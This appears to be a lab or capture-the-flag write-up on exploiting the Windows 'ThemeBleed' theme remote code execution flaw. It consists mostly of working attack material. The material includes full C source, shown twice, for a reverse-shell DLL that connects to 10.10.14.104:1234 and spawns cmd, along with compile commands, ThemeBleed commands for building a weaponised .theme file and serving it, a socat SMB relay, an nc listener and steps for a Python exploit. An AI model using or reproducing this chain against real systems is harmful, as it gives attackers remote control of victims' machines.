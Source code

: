 Web Application for Uploading Windows 11 Aero Themes is a concern due to the Windows Themes Remote Code Execution Vulnerability, as the infection chain is initiated by loading a weaponized THEME file on a compromised system with access to an attacker-controlled SMB share.


1. **Crafting the Malicious ".theme" File:** The attacker creates a ".theme" file that contains malicious code or references a ".msstyles" file manipulated with malicious content.
2. **Delivery to the Victim:** The attacker then tricks or persuades a user into downloading or opening this malicious ".theme" file through social engineering tactics, such as phishing emails, deceptive website downloads, or enticing file attachments.
3. **Exploiting the Vulnerability:** When the victim opens the compromised ".theme" file, the vulnerability within Windows 11 becomes triggered. Specifically, the flaw within the handling of ".msstyles" files can become exploited, allowing the attacker to execute arbitrary code on the victim's system.
4. **Remote Code Execution:** By successfully exploiting the vulnerability, the attacker can remotely execute their code or malicious binaries on the victim's system. This exploit grants the attacker unauthorized access and control over the compromised machine.


--> https://github.com/izenynn/c-reverse-shell
--> https://github.com/gabe-k/themebleed

```
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {


	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);

	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}

	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}
void VerifyThemeVersion() {
  ReverseShell("10.10.14.104", 1234);
}

```

## Compile
`❯ x86_64-w64-mingw32-gcc main.c -shared -lws2_32 -o VerifyThemeVersion.dll` 

## COnfigure Theme on my windows machine
```
.\ThemeBleed.exe  make_theme 10.10.14.104 exploit.theme

# Copy the .exe that we make before into the data folder and rename it as stage_3
#start the server
.\ThemeBleed.exe  server

```

## Configure socat in my attacker machine
```
sudo socat TCP-LISTEN:445,fork,reuseaddr TCP:192.168.0.111:445

# listening reverse shell
nc -nlvp 1234
```


--------------

## Python version for executing on linux


https://github.com/Jnnshschl/CVE-2023-38146

```
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {


	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);

	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}

	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}
void VerifyThemeVersion() {
  ReverseShell("10.10.14.104", 1234);
}

```

## Compile
`❯ x86_64-w64-mingw32-gcc main.c -shared -lws2_32 -o Aero.msstyles_vrf_evil.dll` 

```
pip3 install -r requirements.txt
python3 themebleed.py -r RHOST

```

